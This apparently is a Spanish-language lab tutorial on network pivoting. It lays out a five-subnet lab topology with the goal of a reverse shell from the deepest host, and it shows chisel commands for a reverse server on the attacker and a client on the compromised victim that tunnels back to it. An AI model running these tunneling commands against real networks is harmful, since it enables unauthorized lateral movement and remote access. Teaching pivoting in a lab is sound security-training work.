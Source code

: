 A continuación, se explica el esquema de red anterior:

- **Red inicial del atacante** ➜ Nosotros como atacantes, perteneceremos a la red **10.10.10.1** con la que tendremos conectividad con la máquina **10.10.10.2**, pero no con ninguna otra red. 
- **Segunda red** ➜ La máquina **10.10.10.2** contará con otra interfaz de red, cuya IP es la **20.20.20.2**. Esta **20.20.20.2** tendrá conectividad con la máquina **20.20.20.3**.
- **Tercera red** ➜ Esta máquina **20.20.20.3**, tendrá otra interfaz **30.30.30.2**, cuya conectividad cuenta con la **30.30.30.3**.
- **Cuarta Red** ➜ La **30.30.30.3**, tiene otra interfaz **40.40.40.2**. En la red de la máquina **40.40.40.2** estará la **40.40.40.3** que a su vez, esta tendrá la **50.50.50.2**.
- **Quinta red** ➜ Finalmente, la máquina **50.50.50.2** tendrá conectividad con la **50.50.50.3**.

Esto quiere decir que, nosotros como atacantes solamente tenemos acceso a la **10.10.10.2** y tenemos que intentar llegar a vulnerar y a mandarnos una *reverse shell* desde la **50.50.50.3** hasta nuestra IP **10.10.10.1**. Conseguiremos efectuar todo esto, gracias a herramientas como `chisel` y `socat` que nos permitirá realizar **pivoting** para lograr tener acceso a todas las interfaces de red que se ven en el esquema.

## **Manos a la obra**

### **Conectando la 10.10.10.0/24 ➜ 20.20.20.0/24**

Una vez que hayamos vulnerado la máquina **10.10.10.2**, desde la cual teníamos conectividad con nuestra máquina de atacantes **10.10.10.1** tendremos que crear nuestro servidor `chisel`. Para ello, desde nuestra máquina de atacantes **10.10.10.1**, crearemos el servidor.

```bash
./chisel server --reverse -p 1234
```

Seguidamente, desde la primera máquina víctima **10.10.10.2**, nos conectaremos a nuestro servidor `chisel` y nos traeremos todos los puertos.

```bash
./chisel client 10.10.10.1:1234 R:socks
```

Tal y como se puede ver en la siguiente imagen, hemos abierto un túnel por el puerto *1080*.

![Servidor chisel conectando la 10 con la 20.png](/assets/img/servidor-chisel-conectando-la-10-con-la-20.png)
